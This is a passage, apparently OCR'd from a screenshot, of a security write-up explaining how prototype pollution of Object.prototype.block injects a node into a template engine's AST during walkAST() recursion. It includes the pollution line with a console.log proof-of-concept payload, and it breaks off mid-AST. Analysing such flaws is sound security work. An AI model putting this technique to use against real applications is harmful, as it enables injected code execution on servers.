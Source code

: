 ```
      break;
    case 'Case':
    case 'Filter':
    case 'Mixin':
    case 'Tag':
    case 'InterpolatedTag':
    case 'When':
    case 'Code':
    case 'While':
      if (ast.block) {
        ast.block = walkAST(ast.block, before, after, options);
      }
      break;
    ....
    ....
    ....
    ....
    default:
      throw new Error('Unexpected node type ' + ast.type);
      break;
  }

This walkAST() function will be called recursively.

In the first recursive call, the ast.type will be 'Block'.
2nd call, ast.type will be 'Tag'. During this call, ast.block exists.
3rd call, ast.type will be 'Block' again, during this call, 
4th call, ast.type will be 'Code'. During this call, ast.block doesn't exists!
But in the switch case, we are checking if it exists. Here we can do a prototype pollution by using "Object.prototype.block"!

We can do: Object.prototype.block = {"type":"Text","val":"console.log('this has been executed!!!!!')"};

And that will be added to the AST!

After the walkAST() is complete, the resulting AST will look like this!

{
  type: "Block",
  nodes: [
    {
      type: "Tag",
      name: "span",
      selfClosing: false,
      block: {
        type: "Block",
        nodes: [
          {
            type: "Text",
            val: "Hello ",
            line: 1,
            column: 6,
          },
          {
            type: "Code",
            val: "user",
            buffer: true,
            mustEscape: true,
            isInline: true,
            line: 1,
            column: 12,
            block: {
```